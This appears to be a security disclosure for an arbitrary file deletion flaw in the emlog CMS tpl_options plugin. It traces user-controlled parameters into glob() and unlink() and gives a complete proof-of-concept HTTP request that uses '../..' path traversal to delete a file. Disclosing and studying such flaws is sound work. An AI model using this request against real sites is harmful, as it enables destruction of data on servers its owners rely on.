



## Arbitrary File Deletion `tpl_options.php`

### Debugging Analysis

The vulnerability is in the `upload()` method of the file located at `content\plugins\tpl_options\tpl_options.php`:

```php
 private function upload($template, $file, $target)
    {
        $result = array(
            'code' => 0,
            'msg'  => '',
            'name' => $file['name'],
            'size' => $file['size'],
            'path' => '',
        );
        if ($file['error'] == 1) {
            $result['code'] = 100;
            $result['msg'] = 'File size exceeds system limit';
            return $result;
        }

        if ($file['error'] > 1) {
            $result['code'] = 101;
            $result['msg'] = 'File upload failed';
            return $result;
        }
        $extension = getFileSuffix($file['name']);
        if (!in_array($extension, $this->_imageTypes)) {
            $result['code'] = 102;
            $result['msg'] = 'Invalid file type';
            return $result;
        }
        $maxSize = defined(UPLOAD_MAX_SIZE) ? UPLOAD_MAX_SIZE : 2097152;

        if ($file['size'] > $maxSize) {
            $result['code'] = 103;
            $result['msg'] = 'File size exceeds system limit';
            return $result;
        }
        $uploadPath = Option::UPLOADFILE_PATH . self::ID . "/$template/";

        $file_baseName = rtrim(str_replace(array(
            '[',
            ']'
        ), '.', $target), '.');

        $fileName = $file_baseName . '_' . uniqid() . '.' . $extension;
        $exists_files = glob($uploadPath . $file_baseName . '*');
        if (count($exists_files)) {
            unlink($exists_files[0]);
        }

        $attachpath = $uploadPath . $fileName;
        $result['path'] = $attachpath;
        if (!is_dir($uploadPath)) {
            @umask(0);
            $ret = @mkdir($uploadPath, 0777, true);
            if ($ret === false) {
                $result['code'] = 104;
                $result['msg'] = 'Failed to create upload directory';
                return $result;
            }
        }
        if (@is_uploaded_file($file['tmp_name'])) {
            if (@!move_uploaded_file($file['tmp_name'], $attachpath)) {
                $result['code'] = 105;
                $result['msg'] = 'Upload failed. The file upload directory (content/uploadfile) is not writable';
                return $result;
            }
            @chmod($attachpath, 0777);
        }
        return $result;
    }
```

We traced and found that the `setting()` method calls `upload()`, and both `$template` and `$target` parameters are controllable by user input:

```php
 public function setting()
    {
        $do = $this->arrayGet($_GET, 'do');

        $template = $this->arrayGet($_GET, 'template');

        $code = $this->arrayGet($_GET, 'code');

        $msg = $this->arrayGet($_GET, 'msg');

        $allTemplate = $this->getTemplates();

        if ($do != '') {

            if ($do == 'upload' && isset($_FILES['image'])) {

                $file = $_FILES['image'];

                $target = $this->arrayGet($_POST, 'target');

                $template = $this->arrayGet($_POST, 'template');

                $result = $this->upload($template, $file, $target);

                extract($result);

                $src = '';

                if ($path) {

                    $path = substr($path, 3);

                    $src = BLOG_URL . $path;

                }

                ob_clean();

                include $this->view('upload');

                exit;
            }
            emDirect('./template.php');
        }
```

The `setting` function is called in `content\plugins\tpl_options\tpl_options_setting.php`:

```php
function plugin_setting_view() {

    TplOptions::getInstance()->setting();

}
```

We continue to trace the `plugin_setting_view` function, which is called in `admin\plugin.php`. Note that the parameter `plugin` must be set to `tpl_options` for this PHP file to be included and the function to be called:

```php
// Load plug-in configuration page

if (empty($action) && $plugin) {

    $a = "../content/plugins/$plugin/{$plugin}_setting.php";

    require_once "../content/plugins/$plugin/{$plugin}_setting.php";

    include View::getAdmView('header');

    plugin_setting_view();

    include View::getAdmView('footer');

}
```

### Vulnerability Details

The key vulnerability is in the `upload()` method:

```php
 $uploadPath = Option::UPLOADFILE_PATH . self::ID . "/$template/";

        $file_baseName = rtrim(str_replace(array(
            '[',
            ']'
        ), '.', $target), '.');

        $fileName = $file_baseName . '_' . uniqid() . '.' . $extension;
        $exists_files = glob($uploadPath . $file_baseName . '*');
        if (count($exists_files)) {
            unlink($exists_files[0]);
        }
```

The `glob()` function is used to search for all files matching the `$file_baseName` prefix in the specified directory (`$uploadPath`). The `*` wildcard matches all files that start with `$file_baseName`. If any files are found, the first matching file is deleted using `unlink()`.

The `$template` and `$target` variables are user-controlled inputs, which after concatenation allow for directory traversal, potentially deleting arbitrary files. By manipulating the `target` parameter (for example, setting it to an empty string or a specific character), we can match and delete arbitrary files.

### Exploiting the Vulnerability

First, we create a `secret.txt` file under the `content` directory:



We can then craft a payload where the `template` parameter is set to `../..` (which traverses two directories up to `content`), and the `target` is set to the first letter `s`, which matches the `secret.txt` file:

```http
POST /emlog/admin/plugin.php?plugin=tpl_options&token=f84d7b2cb44f1c6839816ca0f028ef1a35d66d2e&filter=&do=upload HTTP/1.1


Content-Disposition: form-data; name="target"

s
-----------------------------26132868467189384564220341836
Content-Disposition: form-data; name="template"

../..
```

**Note**: The admin token is required.

The complete HTTP request looks like this:

```http
POST /emlog/admin/plugin.php?plugin=tpl_options&token=f84d7b2cb44f1c6839816ca0f028ef1a35d66d2e&filter=&do=upload HTTP/1.1
Host: localhost
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:134.0) Gecko/20100101 Firefox/134.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate, br
Content-Type: multipart/form-data; boundary=---------------------------26132868467189384564220341836
Content-Length: 569
Origin: http://localhost
Connection: close
Cookie: XDEBUG_SESSION=AFCC; csrftoken=N1K4gile3UYv5N2MXM1ShwrrDTIW4JlfeGUS9a3XNzAxoXvHZ3itSuzzfFW4qdo8; devicePixelRatio=2; Phpstorm-db9a8415=b6480a2a-df8b-4049-b957-2723e5e1ad60; EM_AUTHCOOKIE_Is4qa70oOAoxVSN06kHCjdfvPUF6AvMI=admin%7C1768614317%7Cbce91a6d0efcfa837abca98d5feac895; PHPSESSID=uj9b3lutm7ddq4u6a9jctmtgr6
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Priority: u=0, i

-----------------------------26132868467189384564220341836
Content-Disposition: form-data; name="image"; filename="1.png"
Content-Type: image/png

�PNG

-----------------------------26132868467189384564220341836
Content-Disposition: form-data; name="submit"

Submit
-----------------------------26132868467189384564220341836
Content-Disposition: form-data; name="target"


-----------------------------26132868467189384564220341836
Content-Disposition: form-data; name="template"

../..
-----------------------------26132868467189384564220341836--

```
抓包调试，成功匹配到`secret.txt`进行unlink

最后成功删除`secret.txt`

